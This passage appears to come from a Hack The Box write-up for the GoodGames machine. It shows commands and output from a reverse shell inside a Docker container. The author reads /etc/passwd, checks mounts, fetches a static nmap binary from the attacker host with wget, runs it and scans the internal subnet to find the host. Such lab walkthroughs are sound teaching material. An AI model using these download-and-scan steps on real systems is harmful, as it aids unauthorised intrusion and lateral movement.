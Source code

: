 ```bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
```

As there wasn’t any `augustus` in `/etc/passwd`, it might indicate that this home directory is mounted into the container from the host.

```bash
root@3a453ab39d3d:/home/augustus# mount | grep augustus
/dev/sda1 on /home/augustus type ext4 (rw,relatime,errors=remount-ro)
```

Now, we have to find the Docker’s host. We can do this by using a static binary of `nmap` from this GitHub [repository](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap).

```bash
- Netcat Listener -
root@3a453ab39d3d:/home/augustus# ip addr                           
ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:13:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.19.0.2/16 brd 172.19.255.255 scope global eth0
       valid_lft forever preferred_lft forever

- Own Terminal -
┌──(root㉿shiro)-[/home/shiro/HackTheBox/GoodGames]
└─# wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/nmap

- Netcat Listener -
root@3a453ab39d3d:/home/augustus# wget http://10.10.14.14/nmap
root@3a453ab39d3d:/home/augustus# chmod +x nmap
root@3a453ab39d3d:/home/augustus# ./nmap 172.19.0.2/24
...
Not shown: 1205 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:D7:2B:35:73 (Unknown)

Nmap scan report for 3a453ab39d3d (172.19.0.2)
Host is up (0.000023s latency).
All 1207 scanned ports on 3a453ab39d3d (172.19.0.2) are closed
```
